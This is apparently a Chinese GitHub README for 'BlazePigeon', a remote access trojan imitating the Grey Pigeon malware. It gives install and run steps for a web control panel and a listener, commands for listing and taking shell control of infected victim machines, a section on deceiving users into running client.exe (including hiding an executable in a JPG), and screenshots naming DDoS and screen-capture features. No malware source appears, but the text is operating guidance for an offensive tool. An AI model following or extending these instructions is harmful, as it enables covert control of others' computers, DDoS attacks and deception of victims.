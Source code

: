 # BlazePigeon

## 介绍
BlazePigeon(仿[灰鸽子](https://www.freebuf.com/sectool/273317.html))--远程访问型木马。

![img.png](docs/imgs/prin.png)

## 重要依赖包
```shell
pip install mysql

pip install lxml

pip install pywin32api

pip install requests
```

## 使用說明
- 进入BlazePigeon文件夹，启动web服务

```shell
python manage.py runserver 80 
```

- 打开http://127.0.0.1/client_setting/ ，设置客户端连接地址端口版本号
- 打开server.py  python server.py，进入之后设置ip 和 port

```shell
set lhost xxxx

set lport xxxx 
```

- 使用`exploit`命令: 进行监听客户端
- 使用`sessions`命令: 进行查看当前在线肉鸡数 
- 使用`shell <id>`命令: 控制肉鸡shell, 之后使用`shell`进行shell
- 使用`exi`t命令: 推出程序

## 欺骗客户
- 在有了以上的监控平台，下一步就是怎么“欺骗”用户可以在机器上运行`client.exe`，以此来建立监控的链接。
- 我想的是在JPG文件中嵌入exe执行文件，然后在双击jpg文件时默默执行嵌入其中的恶意软件，但事实是在Windows上基本无法实现
> In the old days it was possible to exploit when clicking on image exploits or when Windows OS was creating a thumbnail to show the image file itself as an icon. However, with the recent kernel-level updates of the operating system (ASLR, DEP, etc.), the Windows operating system has become difficult to exploit even if there is a new vulnerability. It didn't work out well in my few attempts. However, the situation is different in browsers. It is possible to run malware only when viewing file contents such as pictures, audio, video via browsers. It is not mentioned much yet that such vulnerabilities create a very dangerous situation for mobile devices.
- 鉴于此，只能写一个程序来解析JPG图片中的恶意程序，那么怎么来解决了解析软件的客户欺骗呢？似乎形成了一个闭环，emmmmm

## 展示

- Login

![img1](./docs/imgs/img0.png)

- Home

![img.png](docs/imgs/img.png)

- Client Setting

![img_1.png](docs/imgs/img_1.png)

- DDos Setting

![img_2.png](docs/imgs/img_2.png)

- Screen Shoot

![img3.png](docs/imgs/img3.png)